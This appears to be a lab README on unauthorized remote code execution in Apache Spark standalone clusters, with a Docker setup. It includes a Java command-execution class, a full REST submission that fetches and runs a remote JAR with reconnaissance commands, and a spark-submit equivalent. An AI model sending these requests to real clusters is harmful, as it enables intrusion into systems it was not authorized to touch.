


# Apache Spark Unauthorized Access Leads to Remote Code Execution

[中文版本(Chinese version)](README.zh-cn.md)

Apache Spark is a cluster computing system that allows users to submit applications to the management node for cluster execution. If the management node has not enabled ACL (Access Control List), it becomes possible to execute arbitrary code in the cluster.

Reference links:

 - https://weibo.com/ttarticle/p/show?id=2309404187794313453016
 - https://xz.aliyun.com/t/2490

## Vulnerability Environment

Execute the following command to start an Apache Spark cluster in standalone mode, which includes one master and one slave:

```
docker compose up -d
```

After the environment starts, visit `http://your-ip:8080` to access the master's management page, and `http://your-ip:8081` to access the slave's management page.

## Vulnerability Reproduce

The essence of this vulnerability is that unauthorized users can submit an application to the management node, where this application is actually malicious code.

There are two ways to submit applications:

1. Using REST API
2. Using submissions gateway (integrated in port 7077)

The application can be written in Java or Python. Here's a simple example class (from reference link 1):

```java
import java.io.BufferedReader;
import java.io.InputStreamReader;

public class Exploit {
  public static void main(String[] args) throws Exception {
    String[] cmds = args[0].split(",");

    for (String cmd : cmds) {
      System.out.println(cmd);
      System.out.println(executeCommand(cmd.trim()));
      System.out.println("==============================================");
    }
  }

  // https://www.mkyong.com/java/how-to-execute-shell-command-from-java/
  private static String executeCommand(String command) {
    StringBuilder output = new StringBuilder();

    try {
      Process p = Runtime.getRuntime().exec(command);
      p.waitFor();
      BufferedReader reader = new BufferedReader(new InputStreamReader(p.getInputStream()));

      String line;
      while ((line = reader.readLine()) != null) {
        output.append(line).append("\n");
      }
    } catch (Exception e) {
      e.printStackTrace();
    }

    return output.toString();
  }
}
```

Compile it into a JAR file and host it on any HTTP or FTP server, for example: `https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar`.

### Submitting Application via REST API

In standalone mode, the master starts an HTTP server on port 6066. We can submit a REST-formatted API request to this port:

```
POST /v1/submissions/create HTTP/1.1
Host: your-ip:6066
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Content-Type: application/json
Connection: close
Content-Length: 680

{
  "action": "CreateSubmissionRequest",
  "clientSparkVersion": "2.3.1",
  "appArgs": [
    "whoami,w,cat /proc/version,ifconfig,route,df -h,free -m,netstat -nltp,ps auxf"
  ],
  "appResource": "https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar",
  "environmentVariables": {
    "SPARK_ENV_LOADED": "1"
  },
  "mainClass": "Exploit",
  "sparkProperties": {
    "spark.jars": "https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar",
    "spark.driver.supervise": "false",
    "spark.app.name": "Exploit",
    "spark.eventLog.enabled": "true",
    "spark.submit.deployMode": "cluster",
    "spark.master": "spark://your-ip:6066"
  }
}
```

Here, `spark.jars` is the compiled application, mainClass is the class to run, and appArgs are the parameters passed to the application.



The response will contain a submissionId. You can then view the execution results by visiting `http://your-ip:8081/logPage/?driverId={submissionId}&logType=stdout`:



Note: While the application is submitted to the master, the results are viewed in the slave that actually executes the application (default port 8081). In real-world scenarios, there might be multiple slaves.

### Using the Submissions Gateway

If port 6066 is inaccessible or has access controls, we can use the master's main port 7077 to submit applications.

This can be done using Apache Spark's built-in script `bin/spark-submit`:

```
bin/spark-submit --master spark://your-ip:7077 --deploy-mode cluster --class Exploit https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar id
```

If the master parameter you specify is a REST server, this script will first try to submit the application using the REST API; if it's not a REST server, it will fall back to using the submission gateway.

The results can be viewed in the same way as described above.
